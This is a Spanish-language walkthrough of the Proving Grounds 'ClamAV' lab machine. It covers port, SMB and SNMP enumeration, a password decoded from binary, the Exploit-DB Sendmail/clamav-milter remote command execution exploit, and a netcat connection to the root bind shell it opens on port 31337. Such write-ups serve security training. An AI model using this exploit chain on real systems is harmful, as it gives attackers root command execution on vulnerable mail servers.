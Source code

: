 ```yaml
---
layout: post
title: ClamAV (Linux - Easy) - Proving Grounds Practice
date: 08.06.2025
categories: [Linux, Proving Grounds, Proving Grounds Practice, Walkthrough, OSCP, Tutorial]
tag: [Proving Grounds Practice, Proving Grounds, Linux, HTTP, SNMP, SMTP, ClamAV, PERL, black-hole.pl, Easy]
---
```


# Resolución paso a paso de la máquina ClamAV:


- Realizamos el primer escaneo para ver que puertos están abiertos:

```bash
nmap -p- --open -v -n 192.168.229.42 -oG allPorts
```

![image.png](/assets/img/post-img/clamAV/image.png)   



- Enumeramos los servicios activos en los puertos que hemos descubierto:

```bash
nmap -sCV -p22,80 --min-rate 5000 192.168.229.232 -oN targeted
```

![image.png](/assets/img/post-img/clamAV/image%201.png)   



## WEB (HTTP)

- Accediendo a la web encontramos un código binario que intentamos descifrar y parece una contraseña  “**ifyoudontpwnmeuran00b**”. (En la pestaña vemos “**Ph33r**” que podría ser un nombre de usuario o algo que puede sernos útil más tarde): 


![image.png](/assets/img/post-img/clamAV/image%202.png) 


![image.png](/assets/img/post-img/clamAV/image%203.png) 



```bash
01101001 01100110 01111001 01101111 01110101 01100100 01101111 01101110 01110100 01110000 01110111 01101110 01101101 01100101 01110101 01110010 01100001 01101110 00110000 0011 0000 01100010 
```

- **ifyoudontpwnmeuran00b**  



## SMB

- Enumeramos **SMB** usando las credenciales que hemos conseguido pero no encontramos nada de interés.  



### SMBMAP

```bash
smbmap -H 192.168.229.42 -u 'Ph33r' -p 'ifyoudontpwnmeuran00b'
```

![image.png](/assets/img/post-img/clamAV/image%204.png)  



### SMBCLIENT

```bash
smbclient -L 192.168.229.42 -U Ph33r -N
```

![image.png](/assets/img/post-img/clamAV/image%205.png)  



### SNMP

- Enumeramos el servicio **SNMP** por el puerto **161** por **UDP** y vemos algo que llama la atención:

```bash
sudo nmap -sC -sV -sU -p161 192.168.229.42
```

![image.png](/assets/img/post-img/clamAV/image%206.png)  



- Analizando el primer escaneo de **NMAP** vemos la versión de **SENDMAIL 8.13.4** y buscando en **EXPLOITDB** encontramos un **EXPLOIT** (**black-hole.pl**) escrito en **PERL** que parece corresponder con la información que hemos recopilado:

[Sendmail with clamav-milter < 0.91.2 - Remote Command Execution](https://www.exploit-db.com/exploits/4761)  



- Lanzamos el **EXPLOIT** y vemos que nos pide un **HOST**.

![image.png](/assets/img/post-img/clamAV/image%207.png)  



- Le pasamos el **HOST** de la máquina víctima y recibimos el siguiente **OUTPUT** pero nada mas:

![image.png](/assets/img/post-img/clamAV/image%208.png)  



- Analizando el código del **EXPLOIT** parece que realiza un **ECHO** de una **STRING** con el puerto **31337** y envia la salida el archivo **/etc/inetd.conf**. Lanzamos un **NMAP** hacia el **31337** y vemos que tiene un estado **OPEN** y un servicio **ELITE**.

```bash
nmap -p 31337 -v -n 192.168.229.42
```

![image.png](/assets/img/post-img/clamAV/image%209.png)  



- Sabemos que en el primer escaneo que hemos realizado con **NMAP** el puerto **31337** no estaba abierto. Intentamos conectarnos con **NC** apuntando directamente al puerto **31337** y vemos que hemos logrado la ejecución de comandos como **ROOT**:

```bash
nc -nv 192.168.229.42 31337
```

![image.png](/assets/img/post-img/clamAV/image%2010.png)  



- Nos movemos al directorio **ROOT** y podemos leer la **FLAG**:

![image.png](/assets/img/post-img/clamAV/image%2011.png)